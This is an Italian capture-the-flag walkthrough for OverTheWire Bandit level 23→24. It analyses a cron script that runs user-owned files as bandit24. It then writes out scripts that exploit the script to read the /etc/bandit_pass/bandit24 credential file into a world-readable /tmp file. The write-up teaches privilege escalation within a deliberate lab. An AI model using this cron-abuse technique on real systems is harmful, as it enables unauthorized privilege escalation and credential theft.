





# Bandit Level 23 → 24

## Obiettivo

La password per il livello successivo si ottiene sfruttando un cronjob che esegue, come `bandit24`, qualsiasi script trovato in una directory specifica e a condizione che lo script sia di proprietà di `bandit23`. L'obiettivo è scrivere uno script che verrà eseguito con i privilegi di `bandit24` e che scriva la password del livello successivo in un file accessibile.

---

## Informazioni di connessione

| Campo | Valore |
|-------|--------|
| Host | `bandit.labs.overthewire.org` |
| Porta | `2220` |
| Utente | `bandit23` |

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

---

## Comandi / concetti utili

- `ls /etc/cron.d/` — elenca i file di configurazione cron di sistema
- `cat` — legge file e script
- `stat --format "%U"` — stampa il nome del proprietario di un file
- `mkdir`, `touch`, `nano` — creazione e scrittura di file
- `chmod 666` / `chmod 777` — permessi di scrittura per tutti / permessi di esecuzione per tutti
- `cp` — copia un file in una directory

---

## Soluzione

### Step 1 – Leggere il cronjob e analizzare lo script

```bash
bandit23@bandit:~$ ls /etc/cron.d/
behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24  leviathan5_cleanup  otw-tmp-dir
clean_tmp          cronjob_bandit23  e2scrub_all       manpage3_resetpw_job  sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

shopt -s nullglob

myname=$(whoami)

cd /var/spool/"$myname"/foo || exit
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." ] && [ "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" "./$i")"
        if [ "${owner}" = "bandit23" ] && [ -f "$i" ]; then
            timeout -s 9 60 "./$i"
        fi
        rm -rf "./$i"
    fi
done
```

Lo script è significativamente più complesso dei livelli precedenti. Ogni riga richiede un'analisi prima di poter costruire la soluzione:

- `shopt -s nullglob` — opzione di bash che fa espandere i glob senza corrispondenze in stringa vuota invece del pattern letterale; evita che il loop provi a elaborare i caratteri `*` e `.*` come nomi di file quando la directory è vuota
- `cd /var/spool/"$myname"/foo || exit` — si sposta in `/var/spool/bandit24/foo`; se la directory non esiste o non è accessibile, termina subito
- il loop `for i in * .*` — itera su tutti i file nella directory, inclusi i nascosti
- `stat --format "%U" "./$i"` — legge il nome del proprietario del file corrente
- `if [ "${owner}" = "bandit23" ] && [ -f "$i" ]` — esegue il file **solo se è di proprietà di `bandit23`** ed è un file regolare
- `timeout -s 9 60 "./$i"` — esegue il file con un timeout di 60 secondi; se non termina entro il limite, invia `SIGKILL` (segnale 9)
- `rm -rf "./$i"` — elimina il file dopo l'esecuzione, indipendentemente dall'esito

Il punto cruciale è la condizione sul proprietario: lo script esegue solo file owned da `bandit23`. Essendo noi `bandit23`, qualsiasi file che creiamo ha automaticamente `bandit23` come proprietario. La condizione è quindi soddisfatta da qualsiasi script che depositiamo nella directory.

Si verifica anche la directory di destinazione:

```bash
bandit23@bandit:~$ ls -l /var/spool/bandit24/
total 4
drwxrwx-wx 10 root bandit24 4096 Jun  8 13:34 foo
```

I permessi `drwxrwx-wx` significano: root e il gruppo `bandit24` hanno accesso completo; gli altri (`bandit23`) hanno solo scrittura ed esecuzione, ma **non lettura**. Non possiamo listare il contenuto della directory, ma possiamo copiare file al suo interno, esattamente quello che ci serve.



### Step 2 – Creare la directory di lavoro e iniziare lo script

Compresa la meccanica, la strategia è chiara: scrivere uno script che, quando eseguito come `bandit24`, legga `/etc/bandit_pass/bandit24` (accessibile a `bandit24` ma non a `bandit23`) e scriva il contenuto in un file leggibile da `bandit23`. Si lavora in una directory personale in `/tmp`:

```bash
bandit23@bandit:~$ mkdir /tmp/bandit_gionweek && touch /tmp/bandit_gionweek/bandit23_script
bandit23@bandit:~$ cd /tmp/bandit_gionweek
bandit23@bandit:/tmp/bandit_gionweek$ nano bandit23_script
```



### Step 3 – Scrivere il contenuto dello script

In nano si scrive una singola riga e si salva il file con il nome `bandit23_script.sh`:

```bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit_gionweek/pass.txt
```



Lo script, eseguito come `bandit24`, leggerà la sua stessa password e la scriverà in `pass.txt` nella nostra directory di lavoro.

### Step 4 – Impostare i permessi corretti

Perché il piano funzioni servono due condizioni distinte sui permessi:

```bash
bandit23@bandit:/tmp/bandit_gionweek$ touch pass.txt
bandit23@bandit:/tmp/bandit_gionweek$ ls -l
-rw-rw-r-- 1 bandit23 bandit23  0 Jun  8 13:29 bandit23_script
-rw-rw-r-- 1 bandit23 bandit23 62 Jun  8 13:30 bandit23_script.sh
-rw-rw-r-- 1 bandit23 bandit23  0 Jun  8 13:31 pass.txt
bandit23@bandit:/tmp/bandit_gionweek$ chmod 666 pass.txt && chmod 777 bandit23_script.sh
bandit23@bandit:/tmp/bandit_gionweek$ ls -l
-rw-rw-r-- 1 bandit23 bandit23  0 Jun  8 13:29 bandit23_script
-rwxrwxrwx 1 bandit23 bandit23 62 Jun  8 13:30 bandit23_script.sh
-rw-rw-rw- 1 bandit23 bandit23  0 Jun  8 13:31 pass.txt
```

- `chmod 777 bandit23_script.sh` — il bit di esecuzione è necessario: il cronjob chiama `"./$i"` direttamente, e un file senza permesso di esecuzione causerebbe un errore. Il bit deve essere impostato per tutti, perché lo script viene chiamato da `bandit24`.
- `chmod 666 pass.txt` — il file è creato da `bandit23` (noi) ed è quindi di proprietà di `bandit23`. Quando `bandit24` esegue il redirect `>`, deve poter scrivere in un file che non è suo: senza il bit di scrittura per "altri" (il `6` finale di `666`), l'operazione fallirebbe con "Permission denied" e `pass.txt` rimarrebbe vuoto.

Creare `pass.txt` vuoto in anticipo con i permessi corretti è essenziale: se il file non esiste al momento dell'esecuzione, il redirect `>` lo creerebbe come nuovo file di proprietà di `bandit24`, che `bandit23` non potrebbe poi leggere.



### Step 5 – Depositare lo script e recuperare la password

Si **copia** lo script nella directory sorvegliata dal cronjob e si attende al massimo un minuto.

Perchè copiarlo e non spostarlo? Occorre ricordare che lo script `cronjob_bandit24.sh` **elimina il file dopo l'esecuzione** indipendentemente dall'esito: se il proprio script non dovesse funzionare come previsto occorrerebbe riscriverlo da zero anzichè modificarlo!

```bash
bandit23@bandit:/tmp/bandit_gionweek$ cp bandit23_script.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/bandit_gionweek$ cat pass.txt
[password bandit24]
```

Il cronjob ha eseguito lo script come `bandit24`, la password è stata scritta in `pass.txt`, e `bandit23` può leggerla grazie ai permessi `666`.



---

## Note e osservazioni

**`shopt -s nullglob` e perché è necessario**

Senza `nullglob`, se `/var/spool/bandit24/foo/` fosse vuota, i pattern `*` e `.*` nel loop `for i in * .*` non corrisponderebbero a nessun file ma verrebbero passati al ciclo come stringhe letterali. Il loop proverebbe quindi a elaborare file di nome `*` e `.*`, che non esistono, producendo errori. Con `nullglob` attivo, un glob senza corrispondenze si espande in stringa vuota e il loop semplicemente non itera.

**`stat --format "%U"` e la verifica del proprietario**

`stat` legge i metadati di un file direttamente dall'inode nel filesystem. Il formato `%U` stampa il nome dell'utente proprietario. Questa verifica nello script è la condizione di sicurezza che impedisce a `bandit24` di eseguire file propri o di altri utenti: solo gli script owned da `bandit23` vengono eseguiti. È anche la ragione per cui la soluzione funziona: noi siamo `bandit23`, quindi ogni file che creiamo soddisfa automaticamente la condizione.

**Script alternativo per il recupero della password**

Lo script usato (`cat ... > pass.txt`) richiede di pre-creare `pass.txt` con `chmod 666` per consentire la scrittura da parte di `bandit24`. Una variante che elimina questo requisito lascia a `bandit24` la creazione del file e aggiunge un `chmod` finale per renderlo leggibile:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit_gionweek/pass.txt
chmod 644 /tmp/bandit_gionweek/pass.txt
```

In questo caso `pass.txt` non va creato in anticipo: `bandit24` lo crea (`644` = `rw-r--r--`) e lo rende leggibile a tutti. `bandit23` può leggerlo immediatamente dopo. Il vantaggio è che non serve il `chmod 666` preventivo; lo svantaggio teorico è che c'è un breve intervallo tra la scrittura e il `chmod` in cui il file esiste ma non è ancora leggibile, trascurabile in pratica ma rilevante in contesti di sicurezza più sensibili.
